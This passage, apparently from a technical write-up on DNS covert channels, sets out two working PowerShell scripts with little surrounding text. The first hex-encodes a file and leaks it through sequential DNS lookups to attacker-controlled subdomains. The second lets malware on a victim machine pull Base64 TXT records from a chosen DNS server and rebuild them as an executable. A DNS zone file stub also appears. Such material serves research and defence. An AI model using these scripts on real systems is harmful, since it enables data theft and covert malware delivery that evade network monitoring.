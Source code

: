 ```

value97 IN TXT "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```

<div>
<center><i> Listing 3. secure.commmunications DNS zone file. </i></center><br>
</div>
    
Poweshell script, used for data exfiltration, is based on example presented by Piotr Głaska on PLNOG 2020 ONLINE [4]. Firstly, Byte file is encoded into hex data and then the DNS server is seqentially queried for different subdomains (Listing 4).
```PS
$i=0;
Resolve-DnsName -Type A -DnsOnly -QuickTimeout -ErrorAction 'silentlycontinue' start.scs.kowercyjne.kanaly
Get-Content -AsByteStream -ReadCount 27 -TotalCount -1 $fname | ForEach-Object {
    $paddedhex = $text = $null;
    $bytes = $_;
    foreach ($byte in $bytes) {
        $byteinhex = [String]::Format("{0:X}", $byte);
        $paddedhex += $byteinhex.PadLeft(2,"0")
    }
    $req=$paddedhex+"."+$i+".scs.kowercyjne.kanaly";
    $i++;
    $req;
    Resolve-DnsName -Type A -DnsOnly -QuickTimeout $req -ErrorAction 'silentlycontinue'; 
}
Resolve-DnsName -Type A -DnsOnly -QuickTimeout -ErrorAction 'silentlycontinue' stop.scs.kowercyjne.kanaly;
```

<div>
<center><i> Listing 4. PowerShell script used for exfiltration. </i></center><br>
</div>

Finally, malware installed on victim operating system can retrieve payload using simple PowerShell script (Listing 5.). After that TXT records are endoced back from Base64 to binary data, what is defined as infiltration.

```PS
$outfile = "out.exe"
$base64 = ""
for ($i=1; $i -le 97; $i=$i+1 ) 
{
    $dns_value = Resolve-DnsName "value$($i).secure.communications" -Type TXT -Server DNS_server_IP;
    $txt = $dns_value.Strings
    $base64 = $base64 + $txt
    
}
$base_64_r = $base64 -replace "`t|`n|`r",""
Write-Output $base_64_r
[IO.File]::WriteAllBytes($outfile, [Convert]::FromBase64String($base_64_r))
```
